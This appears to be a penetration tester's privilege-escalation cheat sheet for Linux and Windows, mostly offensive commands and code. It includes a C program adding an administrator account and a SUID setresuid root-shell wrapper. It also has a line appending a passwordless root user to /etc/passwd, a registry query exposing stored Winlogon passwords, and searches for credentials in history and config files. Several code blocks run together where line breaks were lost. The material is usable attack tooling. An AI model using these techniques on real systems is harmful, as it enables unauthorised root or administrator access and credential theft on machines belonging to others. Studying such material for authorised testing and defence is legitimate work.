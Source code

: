# Priv Escalation

​[https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)​

## Linux Privilege Escalation <a href="#linux-privilege-escalation" id="linux-privilege-escalation"></a>

* sudo -l
* Kernel Exploits
* OS Exploits
* Password reuse (mysql, .bash\_history, 000-default.conf...)
* Known binaries with suid flag and interactive (nmap)
* Custom binaries with suid flag either using other binaries or with command execution
* Writable files owned by root that get executed (cronjobs)
* MySQL as root
* Vulnerable services (chkrootkit, logrotate)
* Writable /etc/passwd
* Readable .bash\_history
* SSH private key
* Listening ports on localhost
* /etc/fstab
* /etc/exports
* /var/mail
* Process as other user (root) executing something you have permissions to modify
* SSH public key + Predictable PRNG
* apt update hooking (Pre-Invoke)
* Capabilities

## Windows Privilege Escalation <a href="#windows-privilege-escalation" id="windows-privilege-escalation"></a>

* Kernel Exploits
* OS Exploits
* Pass The Hash
* Password reuse
* DLL hijacking (Path)
* Vulnerable services
* Writable services binaries path
* Unquoted services
* Listening ports on localhost
* Registry keys

## Kernel Exploits <a href="#kernel-exploits" id="kernel-exploits"></a>

Linux: [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)​

Windows: [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)​

```
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/http://www.fuzzysecurity.com/tutorials/16.html
```

​

Windows Add User

```
#include  /* system, NULL, EXIT_FAILURE */​int main (){  int i;  i=system ("net user   /add && net localgroup administrators  /add");  return 0;}
```

​

SUID Change

```
SUID​Set owner user ID.​int main(void){  setresuid(0, 0, 0);  system("/bin/bash");}​
```

```
Privilege Escalation:#Find Binaries that will execute as the ownerfind / -perm -u=s -type f 2>/dev/null​#Find binaries that will execute as the groupfind / -perm -g=s -type f 2>/dev/null​#Find sticky-bit binariesfind / -perm -1000 -type d 2>/dev/null​find / -perm -4000 2>/dev/null​writable by everyonefind / -writable -type f 2>/dev/null​World writeable directoriesfind / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root​World writeable filesfind / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null​Writeable config filesfind /etc/ -writable -type f 2>/dev/null​find / -user root -perm -4000 -exec ls -ld {} \; 2> /dev/null​
```

Window Exploit Suggester

```
python2 windows-exploit-suggester.py --database 2017-10-10-mssb.xls --systeminfo ../systeminfo.txt --quietpython windows-exploit-suggester.py –systeminfo systeminfo.txt –database 2018-11-25-mssb.xls
```

Windows Priv Escalation

```
AlwaysInstallElevatedCheck if the following registry settings are set to "1"reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedreg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedreg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"​
```

​

Basic Linux Enumeration

```
Distribution type & kernel versioncat /etc/*release*uname -arpm -q kerneldmesg | grep -i linux​Default writeable directory / folder/tmp/dev/shm​Search for passwordsSearch for password within config.phpgrep -R 'password' config.php​Find possible other writeable directory / folderfind / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;​Service(s) running as root userps aux | grep rootps -ef | grep root​Installed applicationsls -lah /usr/bin/ls -lah /sbin/dpkg -lrpm -qals -lah /var/cache/apt/archivesOls -lah /var/cache/yum/​Scheduled jobscrontab -lls -la /etc/cron*ls -lah /var/spool/cronls -la /etc/ | grep croncat /etc/crontabcat /etc/anacrontab​Find pattern in file:grep -rnw '/etc/passwd' -e 'root'​Sticky bit, SGID, SUID, GUIDSticky bitfind / -perm -1000 -type d 2>/dev/null​SGID (chmod 2000)find / -perm -g=s -type f 2>/dev/null​SUID (chmod 4000)find / -perm -u=s -type f 2>/dev/nullfind /* -user root -perm -4000 -print 2>/dev/null​SUID or GUIDfind / -perm -g=s -o -perm -u=s -type f 2>/dev/null​Add user to /etc/passwd and root groupecho hodor::0:0:root:/root:/bin/bash >> /etc/passwd​
```

​
